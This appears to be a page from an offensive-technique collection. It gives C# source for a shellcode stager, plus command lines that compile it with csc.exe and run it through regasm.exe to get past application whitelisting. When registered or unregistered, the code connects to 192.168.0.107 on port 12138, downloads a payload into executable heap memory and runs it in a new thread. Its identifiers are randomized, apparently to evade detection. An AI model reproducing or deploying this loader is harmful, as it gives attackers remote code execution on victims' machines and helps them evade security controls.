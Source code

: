 	>C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out: C:\Users\y\Desktop\dll.dll  /unsafe C:\Users\y\Desktop\dll.cs
	>C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /u dll.dll
```csharp
namespace HYlDKsYF
 {
	 public class kxKhdVzWQXolmmF : ServicedComponent {
		 public kxKhdVzWQXolmmF() { Console.WriteLine("doge"); }
		 [ComRegisterFunction]
		 public static void RegisterClass ( string pNNHrTZzW )
		 {
			 ZApOAKJKY.QYJOTklTwn();
			 }
			 [ComUnregisterFunction]
			 public static void UnRegisterClass ( string pNNHrTZzW )
			 {
				 ZApOAKJKY.QYJOTklTwn();
				 }
				 }
				 public class ZApOAKJKY  { [DllImport("kernel32")] private static extern UInt32 HeapCreate(UInt32 FJyyNB, UInt32 fwtsYaiizj, UInt32 dHJhaXQiaqW);
				 [DllImport("kernel32")] private static extern UInt32 HeapAlloc(UInt32 bqtaDNfVCzVox, UInt32 hjDFdZuT, UInt32 JAVAYBFdojxsgo);
				 [DllImport("kernel32")] private static extern UInt32 RtlMoveMemory(UInt32 AQdEyOhn, byte[] wknmfaRmoElGo, UInt32 yRXPRezIkcorSOo);
				 [DllImport("kernel32")] private static extern IntPtr CreateThread(UInt32 uQgiOlrrBaR, UInt32 BxkWKqEKnp, UInt32 lelfRubuprxr, IntPtr qPzVKjdiF,UInt32 kNXJcS, ref UInt32 atiLJcRPnhfyGvp);
				 [DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr XSjyzoKzGmuIOcD, UInt32 VumUGj);static byte[] HMSjEXjuIzkkmo(string aCWWUttzmy,int iJGvqiEDGLhjr) {
					 IPEndPoint YUXVAnzAurxH = new IPEndPoint(IPAddress.Parse(aCWWUttzmy),iJGvqiEDGLhjr);
					 Socket MXCEuiuRIWgOYze = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);
					 try { MXCEuiuRIWgOYze.Connect(YUXVAnzAurxH); }
					 catch { return null;}
					 byte[] Bjpvhc = new byte[4];
					 MXCEuiuRIWgOYze.Receive(Bjpvhc,4,0);
int IETFBI = BitConverter.ToInt32(Bjpvhc,0);
byte[] ZKSAAFwxgSDnTW = new byte[IETFBI +5];
int JFPJLlk =0;
while(JFPJLlk < IETFBI)
{ JFPJLlk += MXCEuiuRIWgOYze.Receive(ZKSAAFwxgSDnTW, JFPJLlk +5,(IETFBI - JFPJLlk)<4096 ? (IETFBI - JFPJLlk) : 4096,0);}
byte[] nXRztzNVwPavq = BitConverter.GetBytes((int)MXCEuiuRIWgOYze.Handle);
Array.Copy(nXRztzNVwPavq,0, ZKSAAFwxgSDnTW,1,4); ZKSAAFwxgSDnTW[0]=0xBF;
return ZKSAAFwxgSDnTW;}
static void TOdKEwPYRUgJly(byte[] KNCtlJWAmlqJ) {
	if(KNCtlJWAmlqJ !=null) {
		UInt32 uuKxFZFwog = HeapCreate(0x00040000,(UInt32)KNCtlJWAmlqJ.Length,0);
	UInt32 sDPjIMhJIOAlwn = HeapAlloc(uuKxFZFwog,0x00000008,(UInt32)KNCtlJWAmlqJ.Length);
	RtlMoveMemory(sDPjIMhJIOAlwn, KNCtlJWAmlqJ,(UInt32)KNCtlJWAmlqJ.Length);
	UInt32 ijifOEfllRl =0;
	IntPtr ihXuoEirmz = CreateThread(0,0, sDPjIMhJIOAlwn, IntPtr.Zero,0, ref ijifOEfllRl);
	WaitForSingleObject(ihXuoEirmz,0xFFFFFFFF);}}
	
	public static void QYJOTklTwn() {
		byte[] ZKSAAFwxgSDnTW =null; ZKSAAFwxgSDnTW = HMSjEXjuIzkkmo("192.168.0.107",12138);
		TOdKEwPYRUgJly(ZKSAAFwxgSDnTW);
		} } }

```
 #### Msbuild